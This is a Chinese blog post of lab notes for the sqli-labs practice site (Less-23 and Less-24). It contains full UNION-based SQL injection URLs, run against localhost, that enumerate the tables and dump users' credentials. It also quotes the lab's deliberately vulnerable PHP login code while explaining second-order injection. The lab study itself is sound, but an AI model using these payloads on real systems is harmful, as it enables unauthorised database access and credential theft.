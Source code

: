 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      sqli-labs做题记录(二)               # 标题 
subtitle:   Advanced Injections #副标题
date:       2019-08-21              # 时间
author:     Von                      # 作者
header-img: img/post-bg-github-cup.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SQL

---
```


# Less-23
这道题主要是过滤了#,--。这样我们可以使用and '1'='1来闭合'。这里我使用联合查询注入。  
```
127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,2,3 and '1'='1
```
得出显示位为1,2。
```
爆库: 127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,database(),3 and '1'='1
爆表: 127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 and '1'='1
爆字段: 127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3 and '1'='1
爆值: 127.0.0.1/sqli-labs-master/Less-23/?id=-1' union select 1,(select group_concat(username,0x3a,password,0x3c2f62723e) from security.users),3 and '1'='1
```

# Less-24
这道题考查的是二次注入。
> 二次注入也称为存储型注入，就是将可能导致 SQL 注入的字符先存入到数据库中，当再次调用这个恶意构造的字符时，就可以触发 SQL 注入。  

页面主要有三个功能，登录，注册，修改密码。先看源代码:  

``` php
function sqllogin(){
   $username = mysql_real_escape_string($_POST["login_user"]);
   $password = mysql_real_escape_string($_POST["login_password"]);
   $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
//$sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
   $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
   $row = mysql_fetch_row($res);
	//print_r($row) ;
   if ($row[1]) {
			return $row[1];
   } else {
      		return 0;
   }
}
```
